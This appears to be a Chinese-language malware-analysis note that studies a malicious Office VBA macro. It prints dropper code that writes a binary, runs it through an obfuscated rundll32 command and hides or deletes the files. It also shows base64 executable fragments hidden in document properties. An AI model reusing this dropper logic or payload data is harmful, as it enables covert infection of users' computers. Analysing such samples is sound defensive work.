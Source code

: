 ```vbscript
    
    If Dir(PathPld, vbHidden) <> "" Then  #设置 隐藏属性
        Exit Sub
    End If
    
    FileNum = FreeFile  
    Open Path For Binary Access Write As #FileNum 生成文件
    Put #FileNum, 1, bin
    Close #FileNum
        #混淆 cmd 段
    cmdLine = "C:\" + "###" + "Win" + "###" + "dow" + "###" + "s\Sy" + "###" + "ste" + "###" + "m32\" + "run" + "###" + "dll" + "32" + "#" + ".exe " + """" + Path + """" + "###" + ",KlpSvc"
        WordBasic.[Shell] Replace(cmdLine, "#", "")  # 替换 执行字符串
    
        If Dir(PathPld) <> "" Then  #进行隐藏属性设置
       SetAttr PathPld, vbHidden
    End If
    
        If Dir(PathPldBt) <> "" Then  #进行隐藏属性设置
         SetAttr PathPldBt, vbHidden
    End If
    
        If Dir(Path) <> "" Then  #进行文件删除
         Kill Path
    End If

End Sub


```







在信息提取方面 发现VBA 有自己的调试器  好用 啊  可以 ADD watch 之后单步调试666

![QQ20180718161508.png](https://github.com/zhongshendoushuizhao/project/blob/master/APT&malwarle_learn/picture/QQ20180718161508.png?raw=true) 





单步情况下

Subject="TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4AAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAACseA3F6BljlugZY5boGWOWh2/IlsEZY5aHb/2W+BljlodvyZabGWOW4WHwluMZY5boGWKWjhljlodvzJ



Company="T2BkB1BYAOAusJZosAZokDg8MCK13wiV306ZL+////FRTQABBqBV47xnUX6Nrr///HAAkAAADo4uv//4kw6Wr+//+D+G0PhVr+//+DZewA6Vz+//8zwF9bXsnDahBokPYAEOh39P//i10Ig/v+dRvoqev//4MgAOiO6///xwAJAAAAg8j/6bYAAACF23gIOx0oOgEQchroguv//4MgAOhn6///xwAJAAAA6Bb0///r0ovDwfgFjTyFQDoB

